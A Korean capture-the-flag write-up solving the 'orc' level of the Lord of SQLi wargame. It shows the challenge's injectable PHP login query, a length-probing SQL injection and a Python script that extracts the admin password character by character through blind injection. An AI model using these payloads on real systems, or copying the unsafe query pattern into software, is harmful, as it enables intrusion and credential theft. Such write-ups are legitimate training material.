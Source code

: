 # Lord of SQLi - orc
> query : select id from prob_orc where id='admin' and pw=''
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
```
- GET 방식으로 파라미터를 넘겨주고 있다.
- pw파라미터에서 prob, \_, \., \(, \) 를 필터링하고있다.
- 이번에는 Hello admin 이라는 문구를 띄우더라도 그 밑줄에서 addslashes함수를 써서 쿼터를
   필터링한다.  



> select id from prob_orc where id='admin' and pw=''|| id='admin' and length(pw)= $var #'
- $var를 1부터 1씩 증가시켜가면서 대입을 해보면 $var=8일 때 Hello admin 을 출력하는 것을 보고  
   admin의 pw의 길이가 8이라는 것을 알 수 있다.  
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```
- 이 조건문으로 봤을 때 admin의 pw도 알아내야 문제를 풀 수 있다.
- 스크립트를 짜서 풀었다.

### payload
```python
# python 3.5.2
import urllib.request
MyHeader = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3',
'Accept-Encoding': 'none',
'Accept-Language': 'en-US,en;q=0.8',
'Connection': 'keep-alive'}
#MyCookies = {'PHPSESSID': '68jotprn1p8enuiqjd12ahvgs7','_cfduid':'db874ed463a1dda475cbf0410b0e3f66c1494392708'}
length=8
pw=""
arr="1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
for i in range(1,9):
	for j in range(0,62):
		url="http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=*' || id='admin' and substr(pw,{0},1)='{ascii}' %23".format(i,ascii=arr[j])
		r = urllib.request.Request(url,headers=MyHeader)
		r.add_header("Cookie","PHPSESSID=oa8na5v7q0h6m8dqu80mjmmsj5")
		data = urllib.request.urlopen(r).read().decode("utf-8")
		print(url)
		if data.find("Hello admin") != -1 :
			pw = pw + arr[j]
			print("This is    "+arr[j])
			break
print(pw)
```
